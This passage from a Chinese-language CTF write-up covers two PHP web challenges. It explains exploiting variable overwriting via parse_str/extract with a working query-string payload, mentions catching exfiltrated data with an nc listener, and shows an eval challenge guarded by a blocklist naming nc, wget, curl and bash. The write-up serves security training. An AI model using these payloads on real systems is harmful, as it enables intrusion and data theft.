 nc监听即可



当然也可以使用Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）

![](http://img.npfs06.top/20210227105247.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## web134

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

考察数组变量覆盖，举个例子：

```
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);
```

传入`?_POST['a']=123`，输出`array(1) { ["'a'"]=> string(3) "123" }`

Payload:

```
?_POST[key1]=36d&_POST[key2]=36d
```



## web135

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```
